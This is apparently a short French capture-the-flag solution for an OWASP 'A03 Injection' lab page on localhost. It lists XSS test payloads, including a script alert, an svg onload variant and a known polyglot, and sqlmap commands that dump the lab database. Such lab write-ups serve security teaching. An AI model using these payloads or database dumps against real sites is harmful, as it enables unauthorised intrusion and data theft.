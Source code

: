 # Solution
## A03 - Injection

Nous avons une page avec une injection SQL et une XSS. Pour la XSS, nous pouvons tester avec `<script>alert(1)</script>` dans le champ de recherche et cela fonctionne. Nous aurions pu aussi utiliser `"><svg/onload=alert(1)>` ou alors une polyglotte : 
```bash
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
Source : https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

Pour l'injection SQL nous pouvons tester avec SQLmap assez naturellement :
```bash
sqlmap -u "http://localhost:8042/A03.php?username=admin"
sqlmap -u "http://localhost:8042/A03.php?username=admin" --dump
```

Nous obtenons le flag.